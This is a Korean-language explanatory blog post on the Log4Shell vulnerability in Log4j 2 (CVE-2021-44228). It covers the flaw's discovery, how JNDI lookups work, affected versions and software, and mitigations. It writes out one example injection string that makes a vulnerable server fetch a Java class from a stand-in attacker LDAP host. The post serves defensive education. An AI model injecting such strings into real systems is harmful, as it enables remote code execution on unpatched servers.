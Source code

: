 > 본 글은 이번 달 새로 발견된 Log4j 보안 취약성에 대해 알아보기 위해 작성한 글이다.  
> 참고로 현재 발견된 Log4j의 문제는 1.x에서는 해당되지 않으나 1.x에는 다른 보안 취약성이 많이 존재하므로 업데이트를 추천한다.


## 1. 어쩌다 발견되었나? 🤔
![mincraft img](./images/minecraft.png)  
마인 크래프트라는 게임을 한번쯤은 들어본 적이 있을 것이다.  
이번 사태는 해당 게임의 기술자를 통해 본격적으로 널리 알려지게 되었다.

### 11/24
- 알리바바에 의해 취약점 발견

### 12/10
- PaperMC가 Discord를 통해 긴급 패치된 파일로 업데이트 하도록 긴급 공지  
  (PaperMC: 마인크래프트의 마크 멀티플레이 버킷 서비스)
- GitHub Advisory Database에 `CVE-2021-44228` 취약점 게재  
  (GitHub Advisory Database: 오픈소스 sw의 알려진 보안 취약점에 대한 db web site)
- 마인크래프트 기술 책임자가 본인 트위터 및 마인크래프트 홈페이지에 해당 내역 발표

이와 관련해 `CVE-2021-45046`, `CVE-2021-4104`까지 여러 취약점이 나왔다.

<details>
<summary>🔻 기타 관련 취약점</summary>
<div markdown="1">

- CVE-2021-44228: 원격 코드 실행 취약점
- CVE-2021-45046: 서비스 거부 취약점
- CVE-2021-4104: 원격 코드 실행 취약점 (Log4j 1.2 버전)

</div>
</details>


## 2. 취약점의 원인 👿
![log4j img](./images/log4j.png)  
취약점의 원인은 Log4j 2에 있다.  
Log4j란 Java 기반의 로깅 프레임워크 오픈 소스이다.  
Java에서 로그를 사용한다면 다 한번쯤은 써봤고 정말 많은 기업들이 사용하는 프레임워크라 이와 같은 이슈화가 됐다.

이 Log4j 라이브러리를 통해 zero-day 공격이 가능하다.  
어떤 상황에서는 사용자가 입력한 데이터가 로그로 남기도 한다.  
이 사용자 입력에 특수 문자를 포함하거나 log4j의 컨텍스트에서 기록되어야 하는 경우, Java 메소드 조회가 호출되며 LDAP 서버에서 사용자 정의한 원격 클래스를 실행한다.  
이로 인해 취약한 Log4j 2 인스턴스를 사용하는 서버에서는 RCE로 이어진다.

<details>
<summary>🔻 zero-day 공격이란?</summary>
<div markdown="1">

무엇이 잘못 되었는지 깨닫지 못한, 아직 발견하지 못한 결함이 존재한다고 가정하자.  
이 결함을 악용하면 zero-day 공격이라고 한다.

개발자가 취약점을 발견하고 수정하기도 전에 공격자가 악성코드를 공개해 제로데이라고 부른다.  
패치가 작성 및 사용되면 더 이상 제로데이 공격이라 부르지 않으며 이 공격은 발견되기가 드물다.

</div>
</details>

<details>
<summary>🔻 RCE란?</summary>
<div markdown="1">

- = Remote Code Execution  
- 위험한 컴퓨터 취약점의 일종.  
- 공격자가 타겟 시스템에 악의적인 코드를 원격으로 실행시킬 수 있도록 한다.

</div>
</details>

### 🐱‍👓 더 자세히 살펴보자.
Log4j 2.x는 사용자가 Log4j 설정을 유연하게 변경할 수 있도록 lookup이라는 메커니즘을 제공한다.
```
Lookups provide a way to add values to the log4j configuration at arbitrary places.
They are a particular type of Plugin that implements the StrLookup interface.
```

기본적으로 로그 메소드를 호출하면 Log4j 2.x는 각 로그에 `${`가 있는지 확인한다.  
Java의 lookup 메소드가 `${` 뒤에 올 실제 값들을 찾는다.  
예를 들어 `${` 뒤에 `java:runtime`, `java:vm`, `java:os`와 같은 문자열이 온다면 lookup 메소드는 이에 상응하는 값으로 치환할 것이다.

```
java:runtime -> Java(TM) SE Runtime Environment (build 1.7.0_67-b01) from Oracle Corporation
java:vm -> Java HotSpot(TM) 64-Bit Server VM (build 24.65-b04, mixed mode
java:os -> Windows 7 6.1 Service Pack 1, architecture: amd64-64.
```

Jndi lookup, JVM Input Arguments Lookup, Web Lookup 등 lookup에는 다양한 유형이 존재한다.  
여기서 Jndi lookup 같은 경우에는 JNDI로부터 값을 가져오는 것이 가능하고 LDAP이나 RMI 같은 원격 lookup을 위해 여러 프로토콜을 지원한다.

로그에서 공격자가 아래와 같은 strings를 포함시켰다고 가정하자.  
공격자가 제어하는 LDAP 서버의 악성 Java 클래스를 넣었다.
```
${jndi:ldap://www.attacker.com/malicious_java_class}
```
Java의 lookup 메소드는 악성 Java 클래스를 실행하게 된다.

<details>
<summary>🔻 JNDI란?</summary>
<div markdown="1">
= Java Naming and Directory Interface  
제공하는 데이터 및 객체를 발견(discover)하고 참고(lookup)하기 위한 Java API  
모든 자원 객체들은 고유하고 사용자에게 친숙한 JNDI 이름으로 식별  
J2EE 플랫폼의 일부
</div>
</details>

<details>
<summary>🔻 LDAP이란?</summary>
<div markdown="1">

= Lightweight Directory Access Protocol  
TCP/IP, 인터넷 환경에서 손쉽게 디렉터리 서비스를 수용할 수 있는 디렉터리 접근 제어 및 이를 위한 프로토콜  
사용자 인증 및 정보 객체 등록 및 검색 서비스로 주로 적용  
관리하는 정보를 읽고 검색하는 것에 특화

</div>
</details>

## 3. 악용될 수 있는 범위 😭

많은 서비스들이 이 취약점에 시달리고 있다.  
Steam, Apple iCloud 같은 클라우드 서비스들을 포함해 많은 서비스들이 대응 완료 또는 진행중이다.

### 영향받는 버전
Log4j 2.x ~ 2.15.0-rc1  
(2버전 미만은 해당 문제는 적용되지 않지만 많은 취약점이 존재하므로 업데이트를 권장)

### 영향받는 소프트웨어
- Apache Struts
- Apache Solr
- Apache Druid
- Apache Flink
- ElasticSearch
- Flume
- Apache Dubbo
- Logstash
- Kafka
- Spring-Boot-starter-log4j2

## 4. 대응 방법 👊
Java 8의 경우에는 `Log4j 2.16.0`,  
Java 7의 경우에는 `Log4j 2.12.2` 버전을 권고하고 있다.

JndiLookup 클래스를 경로에서 직접 제거할 수 있으나 임시 조치에 불과하다.
```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

### Spring boot
`spring-boot-starter-logging`에 포함된 `log4j-to-slf4j`와 `log4j-api` jar는 악용될 수 없다고 밝혔다.  
다만 `log4j-core`는 취약점에 해당되는데 12/23에 `2.5.8`과 `2.6.2` 버전의 release를 예정해두었다.  
그 전까지는 임의로 종속성을 overriding해서 사용하면 될 것 같다.

***
참고
- Paloalto Network - [Another Apache Log4j Vulnerability Is Actively Exploited in the Wild (CVE-2021-44228)](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/)
- wiki - [Log4j 보안 취약점 사태](https://namu.wiki/w/Log4j%20%EB%B3%B4%EC%95%88%20%EC%B7%A8%EC%95%BD%EC%A0%90%20%EC%82%AC%ED%83%9C?from=2021%EB%85%84%20%EC%9E%90%EB%B0%94%20%EB%B3%B4%EC%95%88%20%EC%B7%A8%EC%95%BD%EC%A0%90%20%EC%82%AC%ED%83%9C)
- 전자 정부 표준 프레임워크 - [Log4j 보안 업데이트 긴급 공지](https://www.egovframe.go.kr/home/ntt/nttRead.do?menuNo=74&bbsId=6&nttId=1838)
- fireeye - [zero-day](https://www.fireeye.kr/current-threats/what-is-a-zero-day-exploit.html)
- encyclopedia - [RCE](https://encyclopedia.kaspersky.com/glossary/remote-code-execution-rce/)
- Spring boot - [Log4J2 Vulnerability and Spring Boot](https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot)
- unit42 - [apache log4j vulnerability](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/)
- lunasec - [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- docs.oracle - [JNDI](https://docs.oracle.com/cd/E19823-01/819-1552/jndi.html)
- IT 용어 위키 - [LDAP](https://seb.kr/w/LDAP)
